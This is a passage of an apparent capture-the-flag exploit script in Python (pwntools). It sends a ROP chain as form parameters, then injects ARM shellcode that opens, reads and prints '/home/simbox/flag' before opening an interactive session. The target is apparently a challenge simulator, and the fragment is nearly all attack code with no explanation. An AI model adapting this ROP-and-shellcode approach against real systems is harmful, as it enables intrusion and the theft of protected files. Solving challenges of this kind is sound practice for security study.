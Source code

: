```python
svc_pop_r4_r5_pc = 0x9E60

rop = [
  pop_r0_pc, 
  0,
  0x6, # r0 => read
  mov_r1_r5_pop_r4_r5_pc,
  0, # r4
  0x24424, # r5
  mov_r1_r5_pop_r4_r5_pc, # r1 = r5
  0, # r4
  0, # r5
  svc_pop_r4_r5_pc, # read,
  0,
  0,
  0x120B0
] 
for r in rop:
  pay += 'list=' + str(r) + '&'

print(pay)
pause()
p.sendafter('> \n', pay)
#p.send(pay)
context.log_level='debug'

code = '''
mov r0, 0
mov r1, 0x10000
mov r2, 0x20
svc 0x6a

mov r0, 0x10000
mov r1, 0
svc 0x66

mov r0, 3
mov r1, 0x10000
mov r2, 0x600
svc 0x6a

mov r0, 1
mov r1, 0x10000
mov r2, 0x600
svc 0x69

svc 0x11
'''

code = "\x00\x00\xa0\xe3\x01\x18\xa0\xe3\x20\x20\xa0\xe3\x6a\x00\x00\xef\x01\x08\xa0\xe3\x00\x10\xa0\xe3\x66\x00\x00\xef\x03\x00\xa0\xe3\x01\x18\xa0\xe3\x06\x2c\xa0\xe3\x6a\x00\x00\xef\x01\x00\xa0\xe3\x01\x18\xa0\xe3\x06\x2c\xa0\xe3\x69\x00\x00\xef\x11\x00\x00\xef"

#p.recvuntil('pc: 9e60, instr: ef123456')
p.recvuntil('parameter[91]:')
p.recvline()
p.send(code)
pause()
p.send('/home/simbox/flag\x00')


p.interactive()
```
